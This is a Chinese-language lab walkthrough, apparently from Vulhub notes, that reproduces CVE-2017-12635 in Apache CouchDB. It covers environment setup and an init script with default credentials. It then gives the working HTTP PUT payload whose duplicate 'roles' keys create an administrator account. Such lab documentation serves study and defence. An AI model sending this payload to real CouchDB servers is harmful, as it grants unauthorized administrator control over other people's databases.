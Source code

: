 # Apache CouchDB 垂直权限绕过漏洞 CVE-2017-12635

## 漏洞描述

Apache CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）。

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12635是由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。

参考链接：

- http://bobao.360.cn/learning/detail/4716.html
- https://justi.cz/security/2017/11/14/couchdb-rce-npm.html

## 漏洞影响

```
Couchdb 小于 1.7.0 以及 小于 2.1.1
```

## 环境搭建

Vulhub编译及启动环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:5984/_utils/`即可看到一个web页面，说明Couchdb已成功启动。但我们不知道密码，无法登陆。

## 漏洞复现

访问`http://your-ip:5984/_users/org.couchdb.user:vulhub`，如果出现404错误：`{"error":"not_found","reason":"Database does not exist."}`，则说明当前Couchdb的初始化未完成，数据库不存在，需要手动进行配置。

Vulhub目录下存在init.sh文件：

```
┌──(root💀kali)-[/home/…/vulnerability/vulhub/couchdb/CVE-2017-12635]
└─# cat init.sh
#!/bin/bash

COUCHDB_URL=${COUCHDB_URL:-"couchdb:5984"}
COUCHDB_AUTH=${COUCHDB_AUTH:-"admin:password"}

while ! curl -m 5 "${COUCHDB_URL}"; do
    sleep 1
done

curl -X PUT http://${COUCHDB_AUTH}@${COUCHDB_URL}/_users
curl -X PUT http://${COUCHDB_AUTH}@${COUCHDB_URL}/_replicator
curl -X PUT http://${COUCHDB_AUTH}@${COUCHDB_URL}/_global_changes
```

依次执行命令，初始化Couchdb，新建`_users`、`_replicator`、`_glocal_changes`三个数据库：

```
curl -X PUT http://admin:password@192.168.174.128:5984/_users 
curl -X PUT http://admin:password@192.168.174.128:5984/_replicator
curl -X PUT http://admin:password@192.168.174.128:5984/_global_changes
```

![image-20220222100506110](images/202202221005221.png)

配置完成后，发送如下数据包：

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 90

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}
```

![image-20220222100650526](images/202202221006605.png)

可见，返回403错误：`{"error":"forbidden","reason":"Only _admin may set roles"}`，只有管理员才能设置Role角色

发送包含两个roles的数据包，即可绕过限制：

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 108

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

成功创建管理员，账户密码均为`vulhub`：

![image-20220222100732534](images/202202221007617.png)

再次访问`http://your-ip:5984/_utils/`，输入账户密码`vulhub`，可以成功登录：

![image-20220222100904867](images/202202221009954.png)
